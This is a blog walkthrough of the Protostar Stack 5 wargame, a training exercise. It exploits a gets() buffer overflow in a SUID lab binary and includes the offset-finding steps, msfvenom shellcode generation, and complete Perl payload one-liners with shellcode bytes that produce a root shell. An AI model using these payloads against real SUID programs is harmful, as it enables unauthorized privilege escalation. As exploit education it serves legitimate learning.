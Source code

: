 ```yaml
---
layout: post
title: "Exploit Exercises - Protostar Stack 5"
date: 2011-12-17T12:23:00-05:00
comments: true
categories:
 - wargames
 - Protostar
 - linux
 - exploit-exercises
 - suid
 - hacking
---
```


Wow, this challenge was a tough one for me.  I ran into some huge problems that I had to work out.  Considering this is a "standard buffer overflow", I figured it'd be as easy as some of the others I've done in the past.  I'll explain my frustrations inline. 

First, we're given the following vulnerable program.

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
 char buffer[64];

 gets(buffer);
}
```

The first task with this challenge was to find the offset of the EIP.  Like previous challenges, I used [Metasploit's](http://www.metasploit.com) pattern_create.rb and pattern_offset scripts on another machine.

```
mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_create.rb 128
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

user@protostar:/opt/protostar/bin$ gdb --quiet ./stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run
Starting program: /opt/protostar/bin/stack5
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae

Program received signal SIGSEGV, Segmentation fault.
0x63413563 in ?? ()

mandreko@li225-134:/opt/framework-4.0.0/msf3/tools$ ./pattern_offset.rb 0x63413563
76
```

 Now we know that we have 76 characters we could put our shellcode in before the EIP.  I was curious to see if we would have any after as well.  I wanted to explore a little, so I ran this.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xEF\xBE\xAD\xDE" . "C"x100' | ./stack5
Segmentation fault (core dumped)

user@protostar:~$ gdb --core=/tmp/core.11.stack5.4174 --quiet
Core was generated by `./stack5'.
Program terminated with signal 11, Segmentation fault.
#0  0xdeadbeef in ?? ()
(gdb) x/10s $esp
0xbffff7e0:      'C' <repeats 100 times>
0xbffff845:      "b\377\267\233\333\352\267\364\357\377\267\001"
0xbffff852:      ""
0xbffff853:      ""
0xbffff854:      "\020\203\004\b"
0xbffff859:      ""
0xbffff85a:      ""
0xbffff85b:      ""
0xbffff85c:      "1\203\004\ba\004\b\001"
0xbffff866:      ""
```

Interestingly enough, it looks like we at least have 100 characters after our return address that we could use to store longer shellcodes.  This could come in handy if using shellcodes generated from msfpayload. 

So now we know that we can jump to 0xbffff7e0 to get into our C area.  Let's pad it with a couple NOPs just in case, and jump to 0xbffff7d6 instead. 

Up until now, this was a simple buffer overflow problem.  One may even call it a textbook problem.  Now here's the part that had me frustrated. 

I decided I would try using msfpayload to generate some shellcode like I've done many times in the past.  Since I just want to run /bin/sh, I figured it'd be an easy way.  I also went through the exercise of finding all the badchars (I'll cover this later, since it doesn't matter here).

```
msfvenom -p linux/x86/exec -f pl -b '\x0d\x0a\x00\xff' CMD=/bin/sh PrependSetresuid=true
[*] x86/shikata_ga_nai succeeded with size 80 (iteration=1)
my $buf =
"\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9" .
"\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e" .
"\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81" .
"\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1" .
"\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19" .
"\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71" .
"\x03\x6e\x5c";
```

This generated shellcode looked awesome.  I configured it to not have any of my badchars, to run "/bin/sh", and to prepend that execution with a setresuid() so that the SUID bit would affect my result, giving me a root shell, instead of just a shell I already had.  So I set it all up:

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\xdb\xc8\xd9\x74\x24\xf4\xba\x2a\xa1\xa4\x48\x5d\x29\xc9\xb1\x10\x31\x55\x17\x83\xed\xfc\x03\x7f\xb2\x46\xbd\x4e\x7d\xb7\xe5\x47\x9e\x08\xbd\x6a\xe1\x03\xb5\x2c\x7b\x81\xaf\xa4\x56\x45\xb9\xd3\xc1\xa6\xca\x73\x12\xd1\x03\xe1\x7b\x4f\xd5\x06\x29\x67\xed\xc8\xce\x77\xc1\xaa\xa7\x19\x32\x59\x50\xe6\x1b\xce\x29\x07\x6e\x70\x18\x13\x1b\x71\x03\x6e\x5c"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                  
user@protostar:~$
```

So um, I should have got a shell there right?  There was no segmentation fault, it ran cleanly.  I tinkered by putting "\xcc" before the shellcode, and it would give me a message letting me know that it hit it.  I knew for sure my shellcode was being executed, but no results.  To verify, I used gdb:

``` 
user@protostar:~$ sudo gdb --quiet /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) run < /home/user/file
Starting program: /opt/protostar/bin/stack5 < /home/user/file
Executing new program: /bin/dash

Program exited normally.
```

What this showed me was 2 interesting things.  Firstly, I was not aware that many distributions now map /bin/sh to /bin/dash (more info [here](https://wiki.ubuntu.com/DashAsBinSh)).  Secondly, and more importantly, I knew for sure that my shellcode was executing, and creating the process.  I just didn't know why it exited after. 

So this is the point that I spent 5 days on and off messing with.  I found if I changed the msfvenom command from CMD="/bin/sh" to CMD="touch /tmp/iamawesome", the file would be created with root permissions.  Any command that didn't need to return to me for interactive control worked fine.  I tried a myriad of other shellcodes, and nothing just gave me a simple shell.  I could bind a shell to a TCP port, or run a meterpreter with no problem, but for this challenge, I just wanted a simple rootshell from "execve()". 

So one night, I was reading on this, and just happened to get my search query perfect, because I stumbled upon an interesting stackoverflow page, [here](http://stackoverflow.com/questions/2859127/shellcode-for-a-simple-stack-overflow-exploited-program-with-shell-terminates-d).  This guy was having the same problem as me!  And interestingly enough, he mentions problems with programs that use the "gets()" function.  This makes sense, as your standard input/output could be configured in a mode just for the function call.  Unfortunately, the shellcode that was mentioned was hosted at milw0rm, which has been down for a good long time.  Many sites, such as [Exploit-Db](http://www.exploit-db.com) have popped up to fill the void that milw0rm left.  However, they use a completely different url structure, so I had no idea what the shellcode was.  Well, I used the [Internet Way-Back Machine](http://www.archive.org), and found an old cache of milw0rm.  From there, I found the shellcode.  I also found that Exploit-Db has it [here](http://www.exploit-db.com/exploits/13357) as well.  I read through the description of the shellcode, and it makes tons of sense.  So I wire it up to try again, this time with the new shellcode.

```
user@protostar:~$ perl -e 'print "A"x76 . "\xd6\xf7\xff\xbf" . "\x90"x16 . "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"' > /home/user/file
user@protostar:~$ /opt/protostar/bin/stack5 < /home/user/file                   
# whoami
root
# id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```

Awesome.  I have a root shell.  I guess it's also worth pointing out that since we are specifically jumping to a memory address in our exploit, that memory addresses can change based on how you call it.  The address will be different if I call ./stack5 from inside the /opt/protostar/bin folder, than if I use the full path.  Since I was using gdb, and it calls files using the full path, I did it as well for the exploit.  For now, we have not yet covered how to dynamically get that value.  That will be for a later post.